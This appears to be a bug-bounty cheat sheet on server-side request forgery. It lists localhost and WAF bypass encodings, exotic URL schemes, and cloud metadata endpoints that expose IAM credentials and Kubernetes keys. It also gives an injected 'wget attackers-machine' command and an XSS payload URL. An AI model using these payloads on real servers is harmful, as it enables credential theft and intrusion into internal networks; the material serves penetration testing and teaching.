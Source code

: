 ```yaml
---
description: Server Side Request Forgery
---
```


# SSRF

SSRF comes in many forms, each time I read a report is like its own unique occurrence, dependent on the web app's functionality and implementation.  SSRF  gives the user the ability to do something, though it  unintentionally gives the attacker the ability to make the request on behalf of the server. 

**PLACES TO FIND SSRF**

Perhaps most commonly, SSRF can be found via any parameter that  appears to be doing something as the server, such as fetching a website's content with a `url=` parameter \(especially if it's not used as a redirect\).  Some other places to find it are situations where a server makes requests to an API, some port or service on its internal network or fetches a file not normally exposed to the public internet.

**Quick SSRF tests and attacks**

Scan internal systems:  
`10.0.0.0/8   
127.0.0.1/32   
172.16.0.0/12   
192.168.0.0/16`  
  
**Reflected XSS:**  
Once you find an endpoint that is fetching an internal file, you can attempt to pull an external file to get a reflected XSS.  
`http://vulnsite/?url=http://brutelogic.com.br/poc.svg`  
  
**File upload services:**   
instead of uploading a file, try sending a URL and see if it downloads the content of your payload.

**ON FINDING INTERNAL PORTS**

If you receive an error message back, check to see if there's a way to tell the difference between open and closed ports. If the result is not completely obvious, look into subtler methods to find differences.  

For example, differences in response times may give you a hint, done very easily with Burp's intruder.  You can compare the amount of time it takes between a port that you are confident is open and contrast it - or just scan all 65,535 like a raging juggernaut \(as 99% of them will not be open, it should be pretty clear at this point\).  Though I'd recommend primarily scanning the ports most likely to be open, such as _80, 443, 8080, 8443, 8001, 22, etc.._

SMUGGLING FORGED REQUESTS UNDER THE WAF's NOSE

There are many tricks to try to bypass a web app's blacklists, whitelists, WAFs and IDSs, and many more continue to be developed through research such as Orange Tsai's and Nahamsec's, as well as many new vulnerable technologies creating new opportunities as well.

*  If you have an endpoint that appends a path to your payload, try adding a & or a \# to the end of your payload like so:

[`http://internal-vulnerable-server/rce?cmd=wget attackers-machine:4000&`](http://internal-vulnerable-server/rce?cmd=wget%20attackers-machine:4000&)[`http://internal-vulnerable-server/rce?cmd=wget attackers-machine:4000#`](http://internal-vulnerable-server/rce?cmd=wget%20attackers-machine:4000#)

* Take a look into a web app's PDF generators, document parsers and file uploads, as SSRF may occur there.  You can simplify the confirmation of the vulnerability without exposing your private IP by using burp collaborator or online webhooks \(https://webhook.site\).  

**Masking your internal requests**

Usually, requests to expose "localhost" and "127.0.0.1" are blacklisted.  Here's some bypasses, many of which can be combined to expand this list further.

```text
http://0177.1/
```

```text
http://0x7f.1/
```

```text
http://127.000.000.1
```

```text
https://520968996
```

_Note:_ The latter can be calculated using [http://www.subnetmask.info/](http://www.subnetmask.info/)

**Exotic Handlers**  
to bypass restrictions on "file://"

![Basic attempts such as above will likely be slapped down](../.gitbook/assets/image%20%2816%29.png)

```text
gopher://, dict://, php://, jar://, tftp://
```

**IPv6**

```text
http://[::1]
```

```text
http://[::]
```

**Wildcard DNS**

```text
10.0.0.1.xip.io
www.10.0.0.1.xip.io
mysite.10.0.0.1.xip.io
foo.bar.10.0.0.1.xip.io
```

_Link:_ [http://xip.io](http://xip.io)

```text
10.0.0.1.nip.io
app.10.0.0.1.nip.io
customer1.app.10.0.0.1.nip.io
customer2.app.10.0.0.1.nip.io
otherapp.10.0.0.1.nip.io
```

_Link:_ [http://nip.io](http://nip.io)

**AWS EC2 Metadata**

```text
http://169.254.169.254/latest/meta-data/
```

```text
http://169.254.169.254/latest/meta-data/local-hostname
```

```text
http://169.254.169.254/latest/meta-data/public-hostname
```

> If there is an IAM role associated with the instance, role-name is the name of the role, and role-name contains the temporary security credentials associated with the role \[...\]

_Link:_ [http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html) \(includes a comprehensive Instance Metadata Categories table\)  


**Other services:**

★ Alibaba: [http://100.100.100.200/latest/meta-data/](http://100.100.100.200/latest/meta-data/)  
★ Docker - containers: [http://127.0.0.1:2375/v1.24/containers/json](http://127.0.0.1:2375/v1.24/containers/json)   
★ Kubernetes ETCD - contains API keys, internal ip and ports: [http://127.0.0.1:2379/v2/keys/?recursive=true](http://127.0.0.1:2379/v2/keys/?recursive=true)   
★ Google Cloud: [http://169.254.169.254/computeMetadata/v1/](http://169.254.169.254/computeMetadata/v1/)   
★ Digital Ocean: [http://169.254.169.254/metadata/v1.json](http://169.254.169.254/metadata/v1.json)   
★ Packetcloud: [https://metadata.packet.net/userdata](https://metadata.packet.net/userdata)   
★ Oracle Cloud: [http://192.0.0.192/latest/](http://192.0.0.192/latest/) 

**Whitelists**  
If dealing with a whitelist blocking your every attempt, the only way \(that I know of\) finding a bypass and making it appear as though the request is truly coming from within, is to find an open redirect from elsewhere in the webapp and diverting the request through it.

This has a great write-up on SOP and CORS, as well as SSRF: _https://www.bishopfox.com/blog/2015/04/vulnerable-by-design-understanding-server-side-request-forgery/_ 

**Bug Bounty Write-ups:**   
[https://hackerone.com/reports/508459](https://hackerone.com/reports/508459)  
[https://hackerone.com/reports/541169](https://hackerone.com/reports/541169)   
[https://hackerone.com/reports/115748](https://hackerone.com/reports/115748)   
[https://hackerone.com/reports/301924](https://hackerone.com/reports/301924)   
[https://www.sxcurity.pro/hackertarget/](https://www.sxcurity.pro/hackertarget/)   
[http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)   
[https://seanmelia.files.wordpress.com/2016/07/ssrf-to-pivot-internal-networks.pdf](https://seanmelia.files.wordpress.com/2016/07/ssrf-to-pivot-internal-networks.pdf) [https://github.com/ngalongc/bug-bounty-reference\#server-side-request-forgery-ssrf](https://github.com/ngalongc/bug-bounty-reference#server-side-request-forgery-ssrf) [https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/](https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/) 

**Payloads:** [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF) injection 

**RESOURCES**   
[http://resources.infosecinstitute.com/the-ssrf-vulnerability/\#gref](http://resources.infosecinstitute.com/the-ssrf-vulnerability/#gref) [http://blog.safebuff.com/2016/07/03/SSRF-Tips/](http://blog.safebuff.com/2016/07/03/SSRF-Tips/)   
https://medium.com/@vickieli/bypassing-ssrf-protection-e111ae70727b   
[https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF) [https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/) [https://securingtomorrow.mcafee.com/mcafee-labs/server-side-request-forgery-takes-advantage-vulnerable-app-servers/](https://securingtomorrow.mcafee.com/mcafee-labs/server-side-request-forgery-takes-advantage-vulnerable-app-servers/) [https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/](https://hack-ed.net/2017/11/07/a-nifty-ssrf-bug-bounty-write-up/)

